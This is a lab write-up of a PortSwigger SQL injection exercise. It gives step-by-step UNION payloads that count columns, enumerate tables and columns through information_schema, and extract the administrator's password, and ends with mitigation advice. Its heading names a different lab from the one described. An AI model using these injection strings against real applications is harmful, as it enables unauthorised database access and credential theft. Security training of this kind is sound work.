


# SQL Injection - UNION Attack: querying the database type and version on MySQL and Microsoft

## Goal:
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the `administrator` user.

---

## Process

### 1. Intercepted the GET Request and Sent to Repeater (using Burp Suite)
```http
GET /filter?category=Corporate+gifts HTTP/2
```

### 2. Modified the Request to Determine Column Count

```sql
' UNION SELECT NULL--
```
Response: HTTP/2 500 Internal Server

```sql
' UNION SELECT NULL,NULL--
```
Response: HTTP/2 200 OK

### 3. Identified Column Accepting String Output

```sql
' UNION SELECT 'a','a'--
```
Response: HTTP/2 200 OK

### 4. Retrieved the table names and column names

```sql
' UNION SELECT table_name,NULL FROM information_schema.tables--
```

This displayed several tables within the database including users_omjluk.



```sql
' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='users_omjluk'--
```


### 5. Retrieved the password of 'administrator'

```sql
' UNION SELECT username_wondnj,password_czpiww FROM users_omjluk WHERE username_wondnj='administrator'--
```



Logged in as the administrator using the password retrieved.

---

## Mitigation

- Use parameterised queries (prepped statements) instead of building SQL statements with user input. This prevents user-controlled input from being executed as SQL code.

Check syntax [here](/PortSwigger-web-security-academy/SQL-injection/01-sqli-where-clause.md#how-to-fix-this-vulnerability)

- Restrict database permissions: The application should connect using a low-privilege database account with access only to the necessary tables and operations. It should not have access to sensitive operations like `SELECT * FROM users`, `DROP`, `UPDATE`, `CREATE`, etc., unless absolutely required.

---

## Reflection

Learned how to retrieve table and column names from "information schema".

---

## Notes

